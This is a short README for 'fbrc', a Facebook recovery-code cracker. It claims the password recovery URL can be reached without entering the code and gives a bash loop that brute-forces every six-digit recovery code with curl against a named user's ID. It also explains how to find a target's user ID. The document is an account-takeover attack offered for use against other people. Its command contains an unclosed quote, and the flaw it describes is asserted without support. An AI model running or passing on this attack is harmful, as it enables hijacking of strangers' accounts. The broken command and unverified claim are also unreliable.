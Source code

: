 # fbrc
fbrc - FaceBook Recovery Cracker

Prerequisites:

-access to facebook
-target email or phone number

Facebook recovery suffers from a security flaw, that is when user asks for a recovery code, it isn't required to enter this code in the formular for the new password's page to be created.
Thus it's possible to trigger the recovery process and then bruteforce the recovery url.

You can do this with any software or a simple program that will generate a million code (6 digits) and try a GET request like this:

for i in {0..9}; do for j in {0..9}; do for k in {0..9}; do for l in {0..9}; do for m in {0..9}; do for n in {0..9}; do curl 'https://www.facebook.com/recover/password/?u=&n=$i$j$k$l$m$n |grep password_new; done; done; done; done; done; done

You must pass the user_id to the `u`parameter, you will find this id in the souce code of the page on the wall of the user, just search for USER_ID.
